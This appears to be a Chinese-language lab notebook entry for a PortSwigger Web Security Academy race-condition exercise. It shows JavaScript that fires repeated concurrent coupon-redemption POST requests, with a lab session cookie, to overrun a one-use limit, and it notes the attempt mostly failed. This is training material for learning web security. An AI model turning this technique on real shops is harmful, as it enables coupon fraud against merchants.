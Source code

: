 ```yaml
---
title: Race conditions
description: Race conditions
---
```


## Lab: Limit overrun race conditions

| Dimension | Description                                                                            |
| --------- | -------------------------------------------------------------------------------------- |
| Document  | https://portswigger.net/web-security/race-conditions#limit-overrun-race-conditions     |
| Lab       | https://portswigger.net/web-security/race-conditions/lab-race-conditions-limit-overrun |

這題很簡單，就是要同時送出很多個兌換碼的 HTTP Request，但很可惜，但要在瀏覽器控制併行送出多個請求會比較困難

```js
const couponForm = document.getElementById("coupon-form");
const sp = new URLSearchParams();
sp.append("csrf", "hJBGfUUwkgeehlxTw7z4T2IuBGB7nBOy");
sp.append("coupon", "PROMO20");
function applyCoupon() {
  return fetch(couponForm.action, {
    method: "post",
    headers: {
      "Content-Type": "application/x-www-form-urlencoded",
    },
    body: sp.toString(),
  });
}
applyCoupon();
applyCoupon();
applyCoupon();
applyCoupon();
applyCoupon();
applyCoupon();
applyCoupon();
applyCoupon();
applyCoupon();
applyCoupon();
applyCoupon();
applyCoupon();
```

稍微調整一下，改用 NodeJS 試試看

```js
const couponForm = document.getElementById("coupon-form");
const sp = new URLSearchParams();
sp.append("csrf", "hJBGfUUwkgeehlxTw7z4T2IuBGB7nBOy");
sp.append("coupon", "PROMO20");
function applyCoupon() {
  return fetch(
    "https://0a1c00990378dd4680117b6b00a700ae.web-security-academy.net/cart/coupon",
    {
      method: "post",
      headers: {
        "Content-Type": "application/x-www-form-urlencoded",
        Cookie: "session=oQf2bCYK3mMzTQnM3OP1YuZbr6mNFlen",
      },
      body: sp.toString(),
    },
  );
}
applyCoupon();
applyCoupon();
applyCoupon();
applyCoupon();
applyCoupon();
applyCoupon();
applyCoupon();
applyCoupon();
applyCoupon();
applyCoupon();
applyCoupon();
applyCoupon();
```

結果更廢，大概只有 claim 1 ~ 2 張折價券，看來需要尋找一個可以併行送出多個請求的 script 或工具

## 參考資料

- https://portswigger.net/web-security/race-conditions
